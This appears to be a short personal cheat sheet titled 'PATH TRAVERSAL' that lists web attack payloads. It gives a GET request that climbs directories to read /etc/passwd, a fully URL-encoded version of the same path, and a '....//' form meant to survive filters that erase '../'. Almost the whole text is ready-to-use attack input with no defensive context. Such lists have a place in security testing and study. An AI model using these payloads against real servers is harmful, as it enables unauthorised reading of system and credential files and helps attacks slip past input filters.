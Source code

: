 # notes
## **PATH TRAVERSAL**
Default way:
>GET /image?filename=../../../../../../../../etc/passwd
Url-Encoded:
>%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
Way, when `../` erased:
>....//....//....//....//
